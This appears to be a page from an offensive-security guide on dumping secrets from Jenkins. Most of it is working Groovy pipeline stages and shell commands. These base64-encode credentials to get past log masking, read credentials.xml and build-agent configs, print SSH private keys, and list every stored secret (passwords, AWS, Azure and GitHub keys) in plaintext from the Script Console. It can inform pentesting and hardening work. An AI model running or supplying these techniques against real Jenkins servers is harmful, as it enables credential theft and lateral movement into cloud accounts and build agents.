 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

## Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

<img src="credential-id-dumping.png">

## Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

<img src="credential-host-configuration.png">
<img src="credential-ssh-configuration.png">


## Credentials Dumping from Script Console

- Credentials can be dumped from the Script Console
``` Groovy
//copied from https://gist.github.com/timja/04afb12c8ad909e400317a2ad9c88445
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.common.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.*
import org.jenkinsci.plugins.plaincredentials.impl.*

  
// def item = Jenkins.instance.getItem("your-folder")

def creds = CredentialsProvider.lookupCredentials(
        com.cloudbees.plugins.credentials.Credentials.class,
        Jenkins.instance, // replace with item to get folder or item scoped credentials 
        null,
        null
);

for (credential in creds) {
  if (credential instanceof UsernamePasswordCredentialsImpl) {
    println credential.getId() + " " + credential.getUsername() + " " + credential.getPassword().getPlainText()
  } else if (credential instanceof StringCredentialsImpl) {
    println credential.getId() + " " + credential.getSecret().getPlainText() 
  } else if(credential instanceof BasicSSHUserPrivateKey) {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey() + "\n Passphrase: " + credential.getPassphrase()
  } else if (credential.getClass().toString() == "class com.microsoft.azure.util.AzureCredentials") {
    println "AzureCred:" + credential.getSubscriptionId() + " " + credential.getClientId() + " " + credential.getPlainClientSecret() + " " + credential.getTenant()
  } else if (credential.getClass().toString() == "class org.jenkinsci.plugins.github_branch_source.GitHubAppCredentials") {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey().getPlainText()
  } else if (credential.getClass().toString() == "class com.cloudbees.jenkins.plugins.awscredentials.AWSCredentialsImpl") {
    println credential.getId() + " " + credential.getAccessKey() + " " + credential.getSecretKey()
  } else if (credential.getClass().toString() == "class com.microsoft.jenkins.keyvault.SecretStringCredentials"
            || credential.getClass().toString() == "class org.jenkinsci.plugins.azurekeyvaultplugin.credentials.string.AzureSecretStringCredentials") {
  } else {
    println credential.getClass()
  } 
}
```

## Offline Credentials Cracking

- TODO


## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
